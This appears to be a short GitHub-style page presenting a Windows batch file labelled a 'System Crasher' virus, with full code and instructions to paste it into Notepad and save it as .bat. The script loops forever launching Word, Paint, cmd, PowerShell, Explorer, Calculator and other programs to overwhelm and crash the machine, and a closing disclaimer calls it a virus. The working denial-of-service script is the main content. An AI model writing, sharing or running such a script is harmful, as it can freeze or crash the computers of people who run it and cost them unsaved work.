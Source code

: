 # Infinite Application Bomber System Crasher Bat File Virus
This code will Continuously open and popup some application After Executing The Files. 
<br>
or
# copy the following code in notepad and save that with .bat extention
```bat
@echo off
:x
start winword
start mspaint
start notepad
start write
start cmd
start powershell
start explorer
start control
start calc
goto x
```
# DisclaimerThis Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

